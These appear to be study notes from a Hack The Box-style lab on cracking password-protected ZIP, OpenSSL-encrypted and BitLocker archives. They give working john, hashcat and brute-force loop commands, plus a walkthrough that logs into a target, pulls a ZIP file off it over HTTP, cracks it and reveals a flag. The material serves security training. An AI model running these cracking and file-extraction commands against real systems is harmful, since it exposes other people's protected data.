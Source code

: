 # Protected Archives

Archive : split all the necessary files in a structured way according to the projects (often in subfolders), summarize them, and pack them into a single file.

Examples of zip : tar , gz , kdbx , 7z

## Download All File Extensions

curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt

Not all of the above archives support password protection : For example, with tar, the tool openssl or gpg is used to encrypt the archives.

## Cracking Archives

### Cracking ZIP

for ext in $(echo ".zip");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
zip2john ZIP.zip > zip.hash
cat zip.hash
john --wordlist=rockyou.txt zip.hash
john zip.hash --show

### Cracking OpenSSL Encrypted Archives

ls

GZIP.gzip  rockyou.txt


file GZIP.gzip

GZIP.gzip: openssl enc'd data with salted password

for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done

gzip: stdin: not in gzip format
tar: Child returned status 1
tar: Error is not recoverable: exiting now

gzip: stdin: not in gzip format
tar: Child returned status 1
tar: Error is not recoverable: exiting now

<SNIP>

ls

customers.csv  GZIP.gzip  rockyou.txt

### Cracking BitLocker Encrypted Drives

bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
cat backup.hash
hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked
cat backup.cracked 

-> The easiest way to mount a BitLocker encrypted virtual drive is to transfer it to a Windows system and mount it.

## LAB

ssh kira@$TARGET
L0vey0u1!

kira@nix01:~$ for ext in $(echo ".zip");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

File extension:  .zip
/home/kira/Documents/Notes.zip

On target :
cd /home/kira/Documents/
python3 -m http.server

On pwnbox :
wget $TARGET:8000/Notes.zip

zip2john Notes.zip > zip.hash
cat zip.hash

Notes.zip/notes.txt:$pkzip2$1*2*2*0*26*1a*d0ced23b*0*43*0*26*d0ce*7ef8*b154046595e5f738ad20bd1cda08958a8814bd6c6153218183c0496d728da36461c0c7b77e1c*$/pkzip2$:notes.txt:Notes.zip::Notes.zip


john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
john zip.hash --show

john --wordlist=/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt zip.hash

john --wordlist=password.list zip.hash

git clone https://github.com/danielmiessler/SecLists.git

tar -xf SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz

john --wordlist=rockyou.txt zip.hash

hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list

john --wordlist=mut_password.list zip.hash
john zip.hash --show

Notes.zip/notes.txt:P@ssw0rd3!:notes.txt:Notes.zip::Notes.zip

1 password hash cracked, 0 left

unzip Notes.zip 
Archive:  Notes.zip
[Notes.zip] notes.txt password: 
 extracting: notes.txt

cat notes.txt 
HTB{ocnc7r4io8ucsj8eujcm}
